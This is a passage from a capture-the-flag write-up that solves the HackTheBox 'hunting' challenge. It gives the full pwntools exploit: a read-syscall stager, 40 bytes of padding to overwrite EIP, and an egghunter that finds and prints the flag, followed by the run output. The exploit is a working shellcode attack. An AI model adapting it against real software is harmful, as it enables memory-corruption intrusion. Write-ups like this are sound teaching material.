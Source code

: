 This done, we will just know that:-

```py
payload = b"A"*40
payload += shellcode
```

We are almost done.

---

Now, we will just add `shellcraft.write(1, 'ebx', 36)` with our previous work and we are done :)

The final exploit looks like:-


```py
from pwn import *

context.arch = "i386"

p = process("./hunting")


# Send the stager shellcode to read the bigger shellcode later
shellcode = asm("""
	xor eax, eax
	mov al, 3
	xor ebx, ebx
	mov dl, 0xff
	int 0x80""")

log.info("SHELLCODE LENGTH:  %d" %(len(shellcode)))

p.send(shellcode)

shellcode = b"A"*40 # Offset to the EIP
# The Egghunter shellcode to search for the memory having `HTB{` strting
shellcode += asm(shellcraft.egghunter(b"HTB{", 0x50000000))
# Once found, the `ebx` points to the flag, so we just print it
shellcode += asm(shellcraft.write(1, "ebx", 36))
p.send(shellcode)

# Recieve the flag
flag = p.recvuntil("}")
log.success("FLAG:   %s" %(flag))
p.close()
```

That aside, let's run it and this time without `gdb`:-

```asm
d4mianwayne@oracle:~/Pwning/HackTheBox$ python3 hunting.py 
[+] Starting local process './hunting': pid 23649
[*] SHELLCODE LENGTH:  10
[+] FLAG:   b'HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}'
[*] Stopped process './hunting' (pid 23649)
```
